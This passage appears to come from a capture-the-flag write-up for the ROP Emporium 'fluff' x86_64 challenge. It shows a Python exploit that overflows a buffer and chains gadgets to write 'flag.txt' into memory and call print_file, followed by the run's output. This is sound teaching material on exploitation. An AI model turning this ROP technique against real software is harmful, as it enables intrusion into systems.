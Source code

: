 ```python
#       f           l           a           g           .           t           x           t
srcs = [0x004003c4, 0x004003c5, 0x004003d6, 0x004007a0, 0x00400553, 0x00400192, 0x00400725, 0x00400192]
dsts = [BSS,        0,          0,          0,          0,          0,          0,          0]

payload = b'A'*40
for i, c in enumerate(b'flag.txt'):
    payload += copy_byte(c, srcs[i], dsts[i])

payload += set_rdi(BSS)
payload += p64(elf.sym['print_file'])

print(len(payload)) # must not be bigger than 512

with open('payload.txt', 'wb') as f:
    f.write(payload)

p.recvuntil('> ')
p.clean()

p.sendline(payload)
p.clean()
p.interactive()
```

Running this produces the flag:

```sh
python3 exploit.py
# fluff by ROP Emporium
# x86_64
# 
# You know changing these strings means I have to rewrite my solutions...
# > Thank you!
# ROPE{a_placeholder_32byte_flag!}
# Segmentation fault
```
